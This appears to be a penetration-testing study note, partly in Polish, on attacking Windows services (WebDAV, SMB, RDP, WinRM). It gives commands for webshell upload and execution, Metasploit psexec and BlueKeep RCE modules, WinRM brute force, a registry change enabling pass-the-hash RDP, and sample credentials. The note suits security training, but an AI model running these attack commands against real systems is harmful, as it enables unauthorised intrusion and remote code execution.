 # Frequently exploited Windows vulnerabilities

|                                                 |                                                           |                                                                                                                                                                                |
| ----------------------------------------------- | --------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Microsoft IIS (Internet Information Services)   | TCP ports<br>80/443                                      | Proprietary web server software developed by Microsoft that runs on Windows.                                                                                                   |
| WebDAV (Web Distributed Authoring & Versioning) | TCP ports<br> 80/443                                      | HTTP extension that allows clients to update, delete, move and copy files on a web server. WebDAV is used to enable a web server to act as a file server.                      |
| SMB/CIFS (Server Message Block Protocol)        | TCP port<br> 445                                          | (czasem oparty na protokole NetBIOS) Network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN). |
| RDP(Remote Desktop Protocol)                    | TCP port<br> (zazwyczaj)3389,<br>często zmieniany na inny | Proprietary GUI remote access protocol developed by Microsoft and is used to remotely authenticate and interact with a Windows system.                                         |
| WinRM (Windows Remote Management Protocol)      | TCP ports<br> 5985(HTTP)<br>5986(HTTPS)                   | Windows remote management protocol that can be used to facilitate remote access with Windows systems. (Execute commands on remote machine)                                     |

## IIS - WebDAV (T:80/443)

Sprawdzić nagłówkiem `HTTP OPTION` jakie opcje są dostępne 
Supported executable file extensions: `.asp`, `.aspx`, `.config`, `.php`
### $ hydra

![[hydra#Http-get (WebDAV)]]
### $ davtest

Davtest is a WebDAV scanner that sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files. The tool also tried to execute uploaded files and gives us an output of successfully executed files.

```bash
$ davtest -url http://10.0.16.177/webdav
$ davtest -auth bob:password_123321 -url http://10.0.16.177/webdav
```

### $ cadaver

Cadaver is a tool for WebDAV clients, which supports a command-line style interface. It supports operations such as uploading files, editing, moving, etc.

```bash
$ cadaver
> open http://target/webdav
 username: ...
 password: ...
> put /usr/share/webshells/asp/webshell.asp # wgranie webshella na server
# otworzyć webshell w przeglądarce

http://target/webdav/webshell.asp?cmd=whoam
http://target/webdav/webshell.asp?cmd=dir+C%3A%5C
http://target/webdav/webshell.asp?cmd=type+C%3A%5Cflag.txt
```

### $ msf

```bash
use exploit/windows/iis/iis_webdav_upload_asp
setg PATH /webdav/metsploit.asp # pamiętać o zmianie ścieżki
```

## SMB (T:445)

### $ msf>psexec

```bash
exploit/windows/smb/psexec
```

This module uses a valid administrator username and password (or password hash) to execute an arbitrary payload.
**Pass-the-hash:**
![[Pass-the-hash#$ msf>psexec]]
### $    impacket-psexec
![[tools/impacket#psexec]]
## RDP (T:3389)

bardzo często port jest zmieniany na inny niż 3389

### $ msf>rdp_scanner

### $ msf>BlueKeep(vulnerability)

```bash
msfconsole
search bluekeep (jest skaner oraz samo skrypt RCE)
use bluekeep_rce
show targets
set target 2
```

### $ xfreerdp

```bash
$ hydra ...
# program do łączenia się poprzez RDP
$ xfreerdp /u:administrator /p:qwertyuiop /v:target:3333
$ xfreerdp /v:192.168.100.50 /u:mike /p:diamond +clipboard /dynamic-resolution
```

#### $ passthehash z xfreerdp
```PS
# https://www.stationx.net/pass-the-hash-attack/

# zmienia Restricted Acces jeśli jest włączony
$ reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

# kali
$ xfreerdp /v:192.168.100.50 /u:Administrator /pth:5c4d59391f656d5958dab124ffeabc20 +clipboard /dynamic-resolutionz
```

## WinRM (HTTP:5985/HTTPS:5986)

### $ msf

```bash
# czy winrm jest włączony i jekie metody logowania
use auxiliary/scanner/winrm/winrm_auth_methods

# bruteforce winrm
use auxiliary/scanner/winrm/winrm_login

# Execute command on the target server
auxiliary/scanner/winrm/winrm_cmd

# exploit na meterpreter
exploit/windows/winrm/winrm_script_exec
```

### $ crackmapexec
![[crackmapexec#WinRM (T 5985/5986)]]

### $ evil-winrm

![[tools/evil-winrm#Windows Remote Management shell for pentesting.]]

### $ msf>winrm_auth_methods

This is very important to know, before we try to connect to the WinRM service. We need to use
a valid authentication method while connecting to the service

```bash
use auxiliary/scanner/winrm/winrm_auth_methods
```

### $ msf>winrm_cmd

This module runs arbitrary Windows commands using the WinRM Service

```bash
use auxiliary/scanner/winrm/winrm_cmd
...
set CMD whoami
```

### $ msf>winrm_script_exec

sesja meterpreter

```bash
use exploit/windows/winrm/winrm_script_exec
...
set FORCE_VBS true
```
